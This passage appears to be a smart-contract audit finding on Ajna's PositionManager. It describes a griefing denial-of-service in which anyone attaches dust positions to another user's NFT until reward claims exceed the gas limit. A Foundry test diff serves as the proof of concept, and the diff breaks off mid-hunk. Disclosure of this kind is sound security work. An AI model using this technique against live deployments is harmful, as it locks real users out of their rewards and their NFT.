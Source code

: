All in all, a griefer can spam anyone's position NFT with insignificant positions until the rewards mechanism fails for the NFT owner due to DoS (gas limit). Side note: A position NFT also cannot be burned as long as such insignificant positions are attached to it, see [PositionManager.burn(...)](https://github.com/code-423n4/2023-05-ajna/blob/276942bc2f97488d07b887c8edceaaab7a5c3964/ajna-core/src/PositionManager.sol#L142-L154).

### Proof of Concept

The following *diff* is based on the existing test case `testMemorializePositions` in `PositionManager.t.sol` and demonstrates that insignificant positions can be attached by anyone.

```diff
diff --git a/ajna-core/tests/forge/unit/PositionManager.t.sol b/ajna-core/tests/forge/unit/PositionManager.t.sol
index bf3aa40..56c85d1 100644
--- a/ajna-core/tests/forge/unit/PositionManager.t.sol
+++ b/ajna-core/tests/forge/unit/PositionManager.t.sol
@@ -122,6 +122,7 @@ contract PositionManagerERC20PoolTest is PositionManagerERC20PoolHelperContract
      */
     function testMemorializePositions() external {
         address testAddress = makeAddr("testAddress");
+        address otherAddress = makeAddr("otherAddress");
         uint256 mintAmount  = 10000 * 1e18;

         _mintQuoteAndApproveManagerTokens(testAddress, mintAmount);
@@ -134,17 +135,17 @@ contract PositionManagerERC20PoolTest is PositionManagerERC20PoolHelperContract

         _addInitialLiquidity({
             from:   testAddress,
-            amount: 3_000 * 1e18,
+            amount: 1, //3_000 * 1e18,
             index:  indexes[0]
         });
         _addInitialLiquidity({
             from:   testAddress,
-            amount: 3_000 * 1e18,
+            amount: 1, //3_000 * 1e18,
             index:  indexes[1]
         });
         _addInitialLiquidity({
             from:   testAddress,
-            amount: 3_000 * 1e18,
+            amount: 1, // 3_000 * 1e18,
             index:  indexes[2]
         });

@@ -165,17 +166,20 @@ contract PositionManagerERC20PoolTest is PositionManagerERC20PoolHelperContract

         // allow position manager to take ownership of the position
         uint256[] memory amounts = new uint256[](3);
-        amounts[0] = 3_000 * 1e18;
-        amounts[1] = 3_000 * 1e18;
-        amounts[2] = 3_000 * 1e18;
+        amounts[0] = 1; //3_000 * 1e18;
+        amounts[1] = 1; //3_000 * 1e18;
+        amounts[2] = 1; //3_000 * 1e18;
         _pool.increaseLPAllowance(address(_positionManager), indexes, amounts);

         // memorialize quote tokens into minted NFT
+        changePrank(otherAddress); // switch other address (not owner of NFT)
         vm.expectEmit(true, true, true, true);
-        emit TransferLP(testAddress, address(_positionManager), indexes, 9_000 * 1e18);
```